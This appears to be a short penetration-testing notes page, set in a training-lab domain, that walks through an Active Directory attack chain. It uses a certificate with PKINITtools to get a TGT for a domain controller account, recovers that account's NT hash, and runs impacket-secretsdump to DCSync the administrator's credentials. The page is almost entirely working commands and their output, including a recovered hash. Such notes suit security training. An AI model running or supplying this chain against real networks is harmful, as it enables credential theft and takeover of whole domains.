 # Example Usage
```shell-session
$ python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <Base64 Certificate> dc01.ccache
```
This will provide:
1. TGT file in `.ccache`
2. `AS-REP` key

The `AS-REP` key can be used to request NT Hash using [[getNThash]]:
```shell-session
$ python /opt/PKINITtools/getnthash.py -key <AS-REP-Key> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
313b6f423cd1ee07e91315b4919fb4ba
```
And this NT hash can be used to perform DCSync attack using [[SecretsDump]]:
```shell-session
$ impacket-secretsdump -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```
